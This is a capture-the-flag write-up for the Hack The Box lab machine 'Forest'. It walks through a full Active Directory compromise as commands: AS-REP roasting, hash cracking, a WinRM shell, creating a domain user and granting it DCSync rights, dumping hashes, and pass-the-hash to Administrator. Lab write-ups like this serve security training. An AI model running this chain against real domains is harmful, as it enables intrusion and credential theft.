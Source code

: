 ```yaml
---
title: "HTB Forest"
permalink: /writeups/access
location: default
---
```


# HTB Forest

**Machine Information**

	IP : 10.10.10.161
	OS : Windows

### Reconnaissance

**Rustscan**

Start by running a port scan using `rustscan`.

```
rustscan -a 10.10.10.161 -- -sC -sV
```

This should reveal a number of services including `kerberos`, `ldap`, and `smb`.

```
PORT      STATE SERVICE      REASON  VERSION
88/tcp    open  kerberos-sec syn-ack Microsoft Windows Kerberos (server time: 2024-06-16 13:40:13Z)
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap         syn-ack Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds syn-ack Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?    syn-ack
593/tcp   open  ncacn_http   syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped   syn-ack
3268/tcp  open  ldap         syn-ack Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped   syn-ack
5985/tcp  open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       syn-ack .NET Message Framing
47001/tcp open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        syn-ack Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack Microsoft Windows RPC
49671/tcp open  msrpc        syn-ack Microsoft Windows RPC
49676/tcp open  ncacn_http   syn-ack Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        syn-ack Microsoft Windows RPC
49682/tcp open  msrpc        syn-ack Microsoft Windows RPC
49704/tcp open  msrpc        syn-ack Microsoft Windows RPC
49976/tcp open  msrpc        syn-ack Microsoft Windows RPC
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2024-06-16T13:41:05
|_  start_date: 2024-06-16T10:19:43
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2024-06-16T06:41:03-07:00
|_clock-skew: mean: 2h26m49s, deviation: 4h02m30s, median: 6m48s
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 32753/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 41777/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 44587/udp): CLEAN (Timeout)
|   Check 4 (port 44199/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
```

### Getting a Foothold

**enum4linux**

Start by running `enum4linux` which will reveal a list of usernames.

```
enum4linux -U 10.10.10.161
```

Save these user strings to a text file and we can use `awk` to extract the usernames.

```
awk -F '[][]' '{print $2}' enum_users.txt > usernames.txt
```

**Impacket GetNPUsers**

With a list of usernames we can now use `impacket-GetNPUsers` for some AS-REP Roasting.

```
impacket-GetNPUsers htb.local/ -dc-ip 10.10.10.161 -usersfile usernames.txt -format hashcat -outputfile hashes
```

**Hashcat**

If done correctly we should receive one hash back for the user `svc-alfresco` that we can crack using `hashcat`.

```
hashcat -m 18200 hashes /usr/share/wordlists/rockyou.txt
```

This will reveal credentials for the user `svc-alfresco`.

**Evil-WinRM**

Using these credentials and `evil-winrm` we can get a shell.

```
evil-winrm -i 10.10.10.161 -u svc-alfresco
```

Grab the flag from the user desktop.

```
type C:\Users\svc-alfresco\Desktop\user.txt
```

### Privilege Escalation

**BloodHound**

To check for potential privilege escalation methods upload `SharpHound.exe` to the target server and run it.

```
.\SharpHound.exe
```

Use our `evil-winrm` session to download it.

```
download 20240616071834_BloodHound.zip
```

Open it in BloodHound. This will show that the user `svc-alfresco` has the "GenericAll" permission which we can potentially exploit.

<https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse#genericall-on-group>

Start by creating our own user to exploit.

```
net user null null123 /add /domain
net group "EXCHANGE WINDOWS PERMISSIONS"
net localgroup "Remote Management Users"
```

**DCSync**

Now to abuse the DCSync upload `PowerView.ps1` to the target system and enter the following commands:

```powershell
Import-Module .\PowerView.ps1
$Password = ConvertTo-SecureString 'null123' -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential('htb.local\null', $Password)
Add-ObjectACL -PrincipalIdentity null -Credential $Credential -Rights DCSync
```

**Secrets Dump**

Once completed use `impacket-secretsdump` to dump the hashes.

```
impacket-secretsdump null:null123@10.10.10.161
```

This will reveal the hash for the Administrator that we can use to perform a Pass-the-Hash attack.

**Pass-the-Hash**

```
impacket-psexec htb.local/administrator@10.10.10.161 -hashes HASH
```

Grab the flag.

```
type C:\Users\Administrator\Desktop\root.txt
```
